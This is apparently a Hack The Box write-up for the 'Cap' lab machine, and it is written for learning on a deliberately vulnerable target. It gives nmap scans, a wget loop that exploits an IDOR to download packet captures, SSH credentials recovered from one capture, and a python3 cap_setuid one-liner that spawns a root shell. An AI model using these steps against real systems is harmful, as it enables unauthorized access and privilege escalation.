

# [Cap](https://app.hackthebox.com/machines/Cap)


```bash
nmap -p- --min-rate 10000 10.10.10.245 -Pn 
```


After discovering open ports, let's do greater scan for this ports.


```bash
nmap -A -sC -sV -p21,22,80 10.10.10.245
```


While surfing on application, I found `IDOR` (Insecure Direct Object Reference) that I can see other data ids which I want.


Let's change `2` into `1`.


Now, it's time to get all data via this `id`s. For this, I will run such Bash script.
```bash
for i in {0..500}; do 
  wget 10.10.10.245/download/${i} -O pcaps/${i}.pcap 2>/dev/null || break; 
done;
```

From here, I just open `0.pcap` file to analyze.

username: nathan


password: Buck3tH4TF0RM3!


Let's login into machine via `ssh` by using these credentials.

user.txt




Let's analyze **capabilities** via this cmdlet `getcap -r / 2>/dev/null`.


I take exploit for `python` from this [blog](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities#exploitation-example)

```bash
/usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash");'
```

root.txt

